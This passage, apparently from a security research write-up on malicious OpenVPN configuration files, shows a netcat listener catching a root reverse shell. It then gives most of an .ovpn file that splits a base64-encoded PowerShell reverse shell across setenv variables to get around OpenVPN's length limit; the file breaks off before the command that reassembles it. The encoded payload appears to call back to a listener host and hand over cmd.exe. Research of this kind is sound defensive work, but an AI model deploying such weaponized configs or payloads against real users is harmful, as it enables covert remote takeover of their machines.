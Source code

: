 Even if the the user does see these log entries a reverse shell has already been established with our listener on 192.168.1.218:

```none
albinolobster@ubuntu:~$ nc -lvp 8181
Listening on [0.0.0.0] (family 0, port 8181)
Connection from [192.168.1.247] port 8181 [tcp/*] accepted (family 2, sport 54836)
root@client:/home/client/openvpn# id
id
uid=0(root) gid=0(root) groups=0(root)
```

#### Windows

Windows doesn’t have an analogous /dev/tcp feature. We’ll have to work a little harder to generate a reverse shell from a Windows host.

Fortunately, Dave Kennedy of TrustedSec wrote a small [powershell reverse shell](https://github.com/trustedsec/social-engineer-toolkit/blob/master/src/powershell/reverse.powershell) that we can use. Using powershell.exe’s -EncodedCommand
parameter we can pass the entire script on the command line. First, however, we’ll need to base64 encode the script to avoid having to insert escapes. Our old friend Carlos Perez has a script called [ps_encoder.py](https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py)
that will do the encoding for us.

However, there is a problem. The encoded reverse shell script is over 4000 characters long and OpenVPN has a 256 character limitation. To get around this we can use the setenv command to split up the script and then recombine it in the up command. Consider the following ovpn file:

```none
ifconfig 10.200.0.2 10.200.0.1
dev tun
remote 192.168.1.245
script-security 2
setenv z1 C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe
setenv a1 ‘ZgB1AG4AYwB0AGkAbwBuACAAYwBsAGUAYQBuAHUAcAAgAHsADQAKAGkAZgAgACgAJABjAGwAaQBlAG4AdAAuAEMAbwBuAG4AZQBjAHQAZQBkACAALQBlAHEAIAAkAHQAcgB1AGUAKQAgAHsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkAfQANAAoAaQBmACAAKAAkAHAAcgBvAGMAZQBzAHMALgBFAHgAaQB0AEM’
setenv b1 ‘AbwBkAGUAIAAtAG4AZQAgACQAbgB1AGwAbAApACAAewAkAHAAcgBvAGMAZQBzAHMALgBDAGwAbwBzAGUAKAApAH0ADQAKAGUAeABpAHQAfQANAAoAJABhAGQAZAByAGUAcwBzACAAPQAgACcAMQA5ADIALgAxADYAOAAuADEALgAyADEAOAAnAA0ACgAkAHAAbwByAHQAIAA9ACAAJwA4ADEAOAAxACcADQAKACQAYwBsAG’
setenv c1 ‘kAZQBuAHQAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAHMAeQBzAHQAZQBtAC4AbgBlAHQALgBzAG8AYwBrAGUAdABzAC4AdABjAHAAYwBsAGkAZQBuAHQADQAKACQAYwBsAGkAZQBuAHQALgBjAG8AbgBuAGUAYwB0ACgAJABhAGQAZAByAGUAcwBzACwAJABwAG8AcgB0ACkADQAKACQAcwB0AHIAZQBhAG0AIAA9A’
setenv d1 ‘CAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQANAAoAJABuAGUAdAB3AG8AcgBrAGIAdQBmAGYAZQByACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEIAeQB0AGUAWwBdACAAJABjAGwAaQBlAG4AdAAuAFIAZQBjAGUAaQB2AGUAQgB1AGYAZgBlAHIAUwBpAHoAZQAN’
setenv e1 ‘AAoAJABwAHIAbwBjAGUAcwBzACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMADQAKACQAcAByAG8AYwBlAHMAcwAuAFMAdABhAHIAdABJAG4AZgBvAC4ARgBpAGwAZQBOAGEAbQBlACAAPQAgACcAQwA6AFwAXAB3AGkAbgB’
setenv f1 ‘kAG8AdwBzAFwAXABzAHkAcwB0AGUAbQAzADIAXABcAGMAbQBkAC4AZQB4AGUAJwANAAoAJABwAHIAbwBjAGUAcwBzAC4AUwB0AGEAcgB0AEkAbgBmAG8ALgBSAGUAZABpAHIAZQBjAHQAUwB0AGEAbgBkAGEAcgBkAEkAbgBwAHUAdAAgAD0AIAAxAA0ACgAkAHAAcgBvAGMAZQBzAHMALgBTAHQAYQByAHQASQBuAGYAbw’
setenv g1 ‘AuAFIAZQBkAGkAcgBlAGMAdABTAHQAYQBuAGQAYQByAGQATwB1AHQAcAB1AHQAIAA9ACAAMQANAAoAJABwAHIAbwBjAGUAcwBzAC4AUwB0AGEAcgB0AEkAbgBmAG8ALgBVAHMAZQBTAGgAZQBsAGwARQB4AGUAYwB1AHQAZQAgAD0AIAAwAA0ACgAkAHAAcgBvAGMAZQBzAHMALgBTAHQAYQByAHQAKAApAA0ACgAkAGkAb’
setenv h1 ‘gBwAHUAdABzAHQAcgBlAGEAbQAgAD0AIAAkAHAAcgBvAGMAZQBzAHMALgBTAHQAYQBuAGQAYQByAGQASQBuAHAAdQB0AA0ACgAkAG8AdQB0AHAAdQB0AHMAdAByAGUAYQBtACAAPQAgACQAcAByAG8AYwBlAHMAcwAuAFMAdABhAG4AZABhAHIAZABPAHUAdABwAHUAdAANAAoAUwB0AGEAcgB0AC0AUwBsAGUAZQBwACAA’
setenv i1 ‘MQANAAoAJABlAG4AYwBvAGQAaQBuAGcAIAA9ACAAbgBlAHcALQBvAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAcwBjAGkAaQBFAG4AYwBvAGQAaQBuAGcADQAKAHcAaABpAGwAZQAoACQAbwB1AHQAcAB1AHQAcwB0AHIAZQBhAG0ALgBQAGUAZQBrACgAKQAgAC0AbgBlACAALQAxACkAewAkAG8’
setenv j1 ‘AdQB0ACAAKwA9ACAAJABlAG4AYwBvAGQAaQBuAGcALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAbwB1AHQAcAB1AHQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAKQApAH0ADQAKACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAGUAbgBjAG8AZABpAG4AZwAuAEcAZQB0AEIAeQB0AGUAcwAoACQAbwB1AHQAKQAsAD’
```